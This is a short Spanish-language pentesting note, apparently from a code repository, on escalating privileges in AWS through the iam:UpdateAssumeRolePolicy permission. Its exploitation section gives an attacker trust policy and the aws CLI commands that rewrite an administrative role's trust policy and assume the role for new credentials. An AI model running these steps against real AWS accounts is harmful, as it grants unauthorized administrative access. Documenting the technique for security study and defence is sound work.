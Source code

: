 # Intro

Las AssumeRolePolicy (también conocidas como relaciones de confianza) definen qué entidades están autorizadas para asumir un rol determinado.

# iam:UpdateAssumeRolePolicy

Este permiso permite a los usuarios modificar la política de confianza de un rol existente. En cuyo caso, un usuario podría alterar la política para incluirse a sí mismo u otra entidad a un rol adoptando sus permisos.

# Explotación

#### Creamos una política que soporte la acción AssumeRole sobre nuestro usuario atacante

    {
      "Version": "2012-10-17",
      "Statement": [
        {
          "Effect": "Allow",
          "Principal": {
            "AWS": "<arn_de_user_atacante>"
          },
          "Action": "sts:AssumeRole",
          "Condition": {}
        }
      ]
    }

#### Modificamos o actualizamos la política para un rol administrativo

    aws iam update-assume-role-policy --role-name <rol> --policy-document file://assumerolepolicy.json --profile <perfil_atacante>


#### Asumimos el rol

En este caso estaremos generando una nuevas claves de acceso para un perfil de rol con el que luego nos loguearemos

    aws sts assume-role --role-arn <arn_rol> --role-session-name <nuevo_perfil> --profile <perfil_atacante>


#### Configuramos un nuevo perfil con los datos obtenidos del último comando y nos logueamos.


